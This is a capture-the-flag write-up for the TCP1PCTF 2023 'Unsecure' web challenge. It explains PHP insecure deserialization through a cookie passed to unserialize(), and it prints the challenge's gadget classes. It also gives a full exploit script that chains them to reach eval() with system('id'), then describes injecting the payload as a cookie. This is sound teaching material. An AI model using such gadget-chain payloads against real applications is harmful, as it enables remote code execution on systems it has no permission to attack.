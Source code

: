 ```yaml
---
layout: post
title: Unsecure (web)
ctf: TCP1PCTF 2023
permalink: /TCP1PCTF2023/Unsecure
---
```


For this challenge, we were provided with source code (dockerize). You also can download it [here][dockerimage].

## Overview

> 🚧 **Description** : Do you know what "unserialize" means? In PHP, unserialize is something that can be very dangerous, you know? It can cause Remote Code Execution. And if it's combined with an autoloader like in Composer, it can use gadgets in the autoloaded folder to achieve Remote Code Execution.

Based on the source code, the challenge is pretty straight forward. On index.php file, it took user input from cookie and passed it to `unserialize()` function. 

```php
// index.php
<?php
require("vendor/autoload.php");

if (isset($_COOKIE['cookie'])) {
    $cookie = base64_decode($_COOKIE['cookie']);
    unserialize($cookie);
}

echo "Welcome to my web app!";
```

Since the application blindly passed user input to `unserilize()` function, this will lead to deserialize vulnerability. Once we identify the source, now lets find the sink for gadget chain. Based on file provided, there were three additional files which are `GadgetOne/Adders.php`, `GadgetTwo/Echoers.php` and `GadgetThree/Vuln.php`. Based on the file name, ***maybe*** `GadgetThree/Vuln.php` is the sink.

```php
// GadgetOne/Adders.php
<?php

namespace GadgetOne {
    class Adders
    {
        private $x;
        function __construct($x)
        {
            $this->x = $x;
        }
        function get_x()
        {
            return $this->x;
        }
    }
}
```
```php
// GadgetTwo/Echoers.php
<?php

namespace GadgetTwo {
    class Echoers
    {
        protected $klass;
        function __destruct()
        {
            echo $this->klass->get_x();
        }
    }
}
```
```php
// GadgetThree/Vuln.php
<?php

namespace GadgetThree {
    class Vuln
    {
        public $waf1;
        protected $waf2;
        private $waf3;
        public $cmd;
        function __toString()
        {
            if (!($this->waf1 === 1)) {
                die("not x");
            }
            if (!($this->waf2 === "\xde\xad\xbe\xef")) {
                die("not y");
            }
            if (!($this->waf3) === false) {
                die("not z");
            }
            eval($this->cmd);
        }
    }
}
```

On `GadgetThree/Vuln.php`, it has a magic method so called `__toString()` and after several if statement, it call `eval()` function. Unlike `__wakeup()` and `__construct()`, which always get executed if the object is created, the `__toString()` method is invoked only when the object is treated as a string. For example, it can decide what to display if the object is passed into an `echo()` or `print()` function. On `GadgetTwo/Echoers`, the class will echo *class* when it destructed. The class must have `get_x()` function from the object, and `get_x()` is exist on `GadgetOne/Adders.php`. Before that, we need to set property of `$klass` is accessable because it was private variable. This can be done using `ReflectionClass`.

Once get the grasp the idea, here is the flow:
- Create `GadgetThree\Vuln` object
- Create `GadgetOne\Adders` object and pass `GadgetThree\Vuln` object as a parameter
- Create `GadgetTwo\Echoers` and set `$klass` property to be acessible
- Set `$klass` to `GadgetOne\Adders`.

## Exploit

```php
<?php

namespace GadgetOne {
    class Adders {
        private $x;
        function __construct($x) {
            $this->x = $x;
        } 
    }
}

namespace GadgetTwo {
    class Echoers {
        protected $klass;
    }
}

namespace GadgetThree {
    class Vuln {
        public $waf1 = 1;
        protected $waf2 = "\xde\xad\xbe\xef";
        private $waf3 = false;
        public $cmd = "system('id');";
    }
}

namespace {
    $GadgetThree = new GadgetThree\Vuln();
    $GadgetOne = new GadgetOne\Adders($GadgetThree);
    $GadgetTwo = new GadgetTwo\Echoers();
    $reflectionClass = new ReflectionClass($GadgetTwo);
    $reflectionProperty = $reflectionClass->getProperty("klass");
    $reflectionProperty->setAccessible(true);
    $reflectionProperty->setValue($GadgetTwo, $GadgetOne);

    $serialized = base64_encode(serialize($GadgetTwo));
    echo $serialized."\n";    
}

```

After generating the encoded payload, create cookie named `cookie` using devtools(or any plugin) and set it to our encoded value. You will see the command will be executed after the page refreshed.

![img1][img1]

## References
* [Basic Magic Method](https://www.ctfnote.com/web/insecure-deserialization/php-deserialization)

[dockerimage]:{{site.baseurl}}/ctfs/TCP1PCTF2023/Unsecure/images/unSecure.zip
[img1]:{{site.baseurl}}/ctfs/TCP1PCTF2023/Unsecure/images/img1.png